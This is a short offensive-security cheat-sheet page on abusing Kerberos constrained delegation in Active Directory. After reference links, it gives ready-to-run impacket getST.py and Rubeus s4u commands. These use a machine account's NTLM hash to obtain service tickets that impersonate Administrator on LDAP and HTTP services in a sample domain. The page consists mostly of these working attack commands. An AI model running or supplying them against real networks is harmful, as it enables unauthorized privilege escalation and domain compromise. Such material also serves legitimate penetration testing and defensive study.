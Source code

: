 # Constrained Delegation

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

## Silver Ticket

* [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

Using impacket:

```
$ getST.py megacorp.local/'SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889 -dc-ip 192.168.1.11 -spn ldap/srv01.megacorp.local -impersonate 'Administrator'
```

Using Rubeus:

```
Cmd > Rubeus.exe s4u /domain:megacorp.local /dc:dc1.megacorp.local /user:SRV01$ /rc4:fc525c9683e8fe067095ba2ddc971889 /altservice:http/srv01.megacorp.local /impersonateuser:Administrator /self /ptt
```

